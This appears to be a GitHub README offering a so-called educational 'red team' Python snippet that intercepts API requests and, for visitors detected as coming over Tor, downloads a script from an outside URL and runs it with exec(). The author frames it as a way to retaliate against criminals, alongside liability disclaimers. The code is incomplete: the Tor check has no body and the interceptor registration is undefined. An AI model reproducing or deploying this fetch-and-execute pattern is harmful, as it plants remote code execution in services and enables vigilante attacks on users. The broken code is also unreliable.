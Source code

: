 # Feuerteufel Logic
###### RedTeam Script Examples (EDU) by Volkan Sah - simple codings for 'Offensive Security' (updated 5/2023)

A creative small Python script that intercepts API requests and, when accessed through the Tor network, loads and runs an external script from a specified URL to Fuck them!
However, keep in mind that this is a highly risky and potentially illegal activity. Use at your own risk and only against crime and child abuse!
##Sorry cant explane all or you know what can be!

## WARNING: READ CAREFULLY! !!! DANGER !!!
This Black Python script example is intended for use by security professionals and developers only. It is not intended for malicious purposes, and I cannot be held responsible for any misuse of this code. If you use this tool for illegal or unethical purposes, you alone will be held responsible for any consequences that may arise, including legal and ethical issues.

Please see [SherlocksHome](https://github.com/VolkanSah/SherlocksHome/) to custumize your logic

### Be aware that attempting to bypass security measures is likely illegal and unethical!

```python
import requests

def intercept_api_requests(request):
    if check_if_accessed_over_tor(request):
        external_script_url = "https://example.com/external_script.py"
        response = requests.get(external_script_url)
        if response.status_code == 200:
            exec(response.text)
        else:
            print("Failed to load the external script.")

def check_if_accessed_over_tor(request):
    # Implement your logic to detect if the request is coming from the Tor network
    # This might involve inspecting the request headers or analyzing network traffic

# Register the interceptor function to intercept API requests
register_interceptor(intercept_api_requests)
```

## issues
Issues to this script are not accepted as it is intended for educational purposes only and not for production use.

### Thank you for your support!
- If you appreciate my work, please consider [becoming a 'Sponsor'](https://github.com/sponsors/volkansah), giving a :star: to my projects, or following me. 
### Copyright
- [VolkanSah on Github](https://github.com/volkansah)
- [Developer Site](https://volkansah.github.io)
